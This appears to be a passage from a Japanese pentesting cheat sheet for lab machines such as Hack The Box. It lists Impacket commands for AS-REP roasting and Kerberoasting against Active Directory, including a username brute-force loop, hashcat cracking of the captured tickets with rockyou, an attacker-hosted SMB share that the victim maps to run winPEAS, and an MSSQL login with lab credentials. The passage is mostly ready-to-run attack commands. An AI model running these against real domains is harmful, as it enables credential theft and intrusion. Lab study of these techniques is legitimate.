 GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}

python3 GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/'
```

ユーザー名を列挙したファイルからブルートフォースで取得する
```
$for user in $(cat ~/users); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.192 -request blackfield.local/$user | grep krb5asrep; done
```

#### GetUserSPNs.py
通常のユーザー アカウントに関連付けられているサービス ユーザー名のリストを取得できる。  
また、チケットもブルートフォースが成功すれば入手できる

```
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

python3 GetUserSPNs.py hokkaido-aerospace.com/discovery:'Start123!' -dc-ip 192.168.121.40 -request
```

入手したハッシュ化されたケルベロス認証チケットをhashcatで解読する、  
13100というのはhashcatの解読モードのことで、13100は、ケルベロス認証用で、
18200はkrb5asrepで使う  
どの数値が何用かは以下のページで確認できる  

```
https://hashcat.net/wiki/doku.php?id=example_hashes
```

```
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

#### impakcet-smbserverを利用したファイル転送
windowsでファイル転送する時によく用いられる

```
攻撃側
$ impacket-smbserver please $(pwd) -smb2support -user test -password helloworld


やられ側
C:> $pass = convertto-securestring 'helloworld' -AsPlainText -Force
C:> $cred = New-Object System.Management.Automation.PSCredential('test',$pass)

C:> New-PSDrive -Name test -PSProvider FileSystem -Credential $cred -Root \\自分のIP\please
C:>.\winPEAS64.exe
```

#### impacket-mssqlclient

```
impacket-mssqlclient 'hokkaido-aerospace.com/discovery':'Start123!'@192.168.121.40 -dc-ip 192.168.121.40 -windows-auth
```

#### impacket-mssqlclient内の操作方法

```
データベースを列挙する
SELECT name FROM master..sysdatabases;
もしくは
enum_db
